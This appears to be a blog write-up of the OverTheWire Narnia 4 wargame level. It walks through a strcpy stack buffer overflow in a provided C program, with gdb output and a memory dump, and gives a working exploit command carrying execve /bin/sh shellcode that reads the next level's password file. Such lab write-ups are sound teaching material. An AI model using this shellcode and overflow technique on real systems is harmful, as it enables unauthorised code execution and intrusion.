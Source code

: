 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 4 -> 5"
subtitle:   "Write-Up"
date:       2017-03-09 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Today we'll be dealing with another reverse engineering challenge from Overthewire - pretty quick, but fun as always!  </p>

<h1>Challenge</h1>

<p>This code is a lot shorter, compared to the previous ones, making it much easier to analyze. </p>

{% highlight c %}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
	int i;
	char buffer[256];

	for(i = 0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	if(argc>1)
		strcpy(buffer,argv[1]);

	return 0;
}

{% endhighlight %}

<p>Yeah, we have a buffer of 256 bytes, which gets the content, using dangerous <b>strcpy</b> function straight from the argument variable. This challenge looks a lot like the second one, so maybe we will also be able to put shellcode somewhere in the buffer? </p>

<p>Actually, after a little bit of tinktering in <b>gdb</b>, I've found that providing the binary with 273 "A" letters and 7 "B" letters will overwrite our buffer, together with return address.  </p>

{% highlight bash %}
(gdb) run $(python -c 'print "A" * 272 + "BBBBBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia4 $(python -c 'print "A" * 272 + "BBBBBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
{% endhighlight %}

<p>Now let's take a look at the memory. </p>

{% highlight text %}
0xffffd800:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd810:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd820:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
---Type <return> to continue, or q <return> to quit---
0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8b0: 0x41414141  0x41414141  0x42424141  0x42424242
0xffffd8c0: 0x00004242  0x00000000  0x00000000  0x00000000
0xffffd8d0: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd8e0: 0x00000000  0x00000000  0x00000000  0x00000000
{% endhighlight %}

<p>From this we know that we have somewhere around 272 bytes for the shellcode with some additional bytes that will overwrite the return address. Now we can construct the command, using code from the previous levels. </p>

<p>As we already know that our payload is 25 bytes in size, we will have to: firstly write 247 "A" letters, then 25 bytes of shellcode and lastly overwriting the <b>EIP register</b>, which then will be placed somewhere in the middle of "A" letters. By looking at the debug of the memory, I'm going to choose it as <b>0xffffd850</b>.  </p>

{% highlight bash %}
narnia4@melinda:/narnia$ ./narnia4 $(python -c'print "A" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"')
$ cat /etc/narnia_pass/narnia5
********
{% endhighlight %}

<p>Once again we have the password to the next level! </p>

<h1>Conclusion</h1>
<p>Another big thanks to <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm looking forward to the next challenges! </p>


<p>~ Stay safe!</p>
